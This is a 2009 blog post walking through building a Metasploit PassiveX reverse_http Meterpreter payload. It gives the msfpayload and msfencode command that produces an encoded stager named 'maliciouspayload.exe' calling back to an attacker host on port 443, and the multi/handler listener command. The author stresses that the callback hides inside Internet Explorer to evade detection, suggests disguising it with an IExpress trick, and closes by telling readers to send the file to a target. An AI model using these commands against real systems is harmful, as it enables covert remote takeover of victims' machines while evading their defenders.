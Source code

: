 ---
author: mubix
comments: true
date: 2009-06-10 13:21:05+00:00
layout: post
title: PassiveX fun with Metasploit
categories:
- metasploit
- passivex
---

I posted this walkthrough to the Metasploit mailing list, but thought that it would serve well here as well. Especially with the recent iPhone 3.0 “Special” download spam I recently received. The binary comes out to a whopping 97 bytes for the stager. Would be a blazing fast download and coupled with the [IExpress “hack”](/archives/440-metasploit-2.html) would make for an very hard to spot payload.

A really down and dirty explination of what PassiveX is and why it's useful in this sort of situation is that instead of making a direct connection back to you, it uses an iexplorer process with a cool ActiveX control to talk back. So someone looking for a rogue process will only see Internet Explorer open and talking over port 443 (as specified).

(props to skape for writting PassiveX and @[NatronKeltner](https://twitter.com/natronkeltner) for kicking in the latest tweaks to make it work with IE7/IE8)

Here are the options for msfpayload:

```
Usage: ./msfpayload <payload> [var=val] <S[ummary]|C|P[erl]|[Rub]y|R[aw]|J[avascript]|e[X]ecutable|[V]BA>
```

And msfencode's options if you chose to use it as I demonstrate below. However, encoding happens by default with msfpayload (IIRC):

```
./msfencode -h
Usage: ./msfencode <options>
OPTIONS:
-a <opt> The architecture to encode as     
-b <opt> The list of characters to avoid: 'x00xff'      
-c <opt> The number of times to encode the data      
-e <opt> The encoder to use      
-h Help banner      
-i <opt> Encode the contents of the supplied file path      
-l List available encoders      
-m <opt> Specifies an additional module search path      
-n Dump encoder information      
-o <opt> The output file      
-s <opt> The maximum size of the encoded data      
-t <opt> The format to display the encoded buffer with (c, elf, exe, java, perl, raw, ruby, vba)
```

Here we create the PassiveX payload. Note the PX options instead of the LHOST/LPORT:

```
./msfpayload windows/reflectivemeterpreter/reverse_http PXHOST=192.168.1.100 PXPORT=443 PXURI=/ R | ./msfencode -t exe -o /tmp/maliciouspayload.exe
[*] x86/shikata_ga_nai succeeded with size 97 (iteration=1)
```

Now that we have our "malicious payload" in /tmp we get our listener ready (you can use msfcli as well, I just like msfconsole because it provides me more flexibility):

```
./msfconsole

 

_     
| | o      
_ _ _ _ _|_ __, , _ | | __ _|_      
/ |/ |/ | |/ | / | / _|/ _|/ / _| |      
| | |_/|__/|_/_/|_/ / |__/ |__/__/ |_/|_/      
/|      
|

 

=[ msf v3.3-dev     
+ -- --=[ 376 exploits - 234 payloads      
+ -- --=[ 20 encoders - 7 nops      
=[ 153 aux

 

msf > use multi/handler     
msf exploit(handler) > exploit -h
```
 
(I'm showing you 'exploit's options because a lot of people don't know they exist. With two lines you can start your listener (use, then exploit):**

```
Usage: exploit [options]     
Launches an exploitation attempt.

OPTIONS:     
-e <opt> The payload encoder to use. If none is specified, ENCODER is used.      
-h Help banner.      
-j Run in the context of a job.      
-n <opt> The NOP generator to use. If none is specified, NOP is used.      
-o <opt> A comma separated list of options in VAR=VAL format.      
-p <opt> The payload to use. If none is specified, PAYLOAD is used.      
-t <opt> The target index to use. If none is specified, TARGET is used.      
-z Do not interact with the session after successful exploitation.

msf exploit(handler) > exploit -j -z -p windows/reflectivemeterpreter/reverse_http -o PXHOST=0.0.0.0,PXPORT=443,PXURI=/,ExitOnSession=False

[*] Exploit running as background job.     
[*] PassiveX listener started.      
[*] Starting the payload handler...

 msf exploit(handler) >
```

Listener ready to go. I chose IP: 0.0.0.0 just to make things easy. Just send off maliciouspayload.exe to your target and you're set.